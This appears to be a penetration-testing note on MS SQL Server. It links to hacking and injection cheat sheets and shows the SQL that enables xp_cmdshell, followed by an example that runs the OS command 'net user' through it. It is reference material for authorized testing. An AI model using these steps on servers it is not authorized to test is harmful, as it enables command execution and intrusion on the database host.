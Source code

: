 ```yaml
---
tags: [mssql,windows]
---
```

# MS SQL Server

- [Pen test and hack microsoft sql server (mssql)](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Enable xp_cmdshell on MS SQL Server 2005+

```sql
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO  
```

https://docs.microsoft.com/fr-fr/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017

Then execute code:

```
EXEC master..xp_cmdshell 'net user'; 
```

PS: It is enabled by default for MS SQL Server 2000
